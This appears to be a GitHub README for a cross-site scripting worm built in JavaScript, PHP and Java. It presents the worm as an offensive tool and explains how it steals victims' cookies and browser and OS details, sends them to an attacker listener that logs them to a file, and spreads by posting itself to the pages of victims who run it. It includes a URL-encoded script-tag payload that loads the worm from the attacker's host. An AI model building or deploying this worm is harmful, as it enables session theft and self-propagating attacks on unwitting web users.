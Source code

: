 # XSS-Worm
XSS Worm which steals cookies and some information of victim's, also spreads others. Written in js, php and java.

## Stealing
The worm will send cookies and some other information (like browser and os) to the attacker (attacker presented as localhost in the script).
1. The script inside **javascript/worm.js** need to be embedded into attackers webpage somehow.
2. Attacker will listen a port (8089 in this case) to receive stealed data sent from worm. And incoming data will be printed to a text file (named "cookies.txt"). Here the **tcp/Main.java** program will do the trick.
3. Finally, attacker can display stealed information with **web/innocentwebapp.php** file which parses "cookies.txt" file.

## Spreading
The worm will spread(post) itself to anyone's webpage who *involuntarily* run the script **javascript/worm.js**.
1. Worm has a part which sends a request to **web/agentsmith.php** and post its response to the webpage whom visits the contagious page.(To make the request properly, data must be URL encoded.)
```javascript
var agentsmith = "%3Cscript%20type%3D%5C%22text%2Fjavascript%5C%22%20src%3D%5C%22http%3A%2F%2Flocalhost%2Fagentsmith.php%5C%22%3E%3C%2Fscript%3E";
```

2. If the worm posted succefully to victims webpage, who visits the victims contagious page will be also exploited.
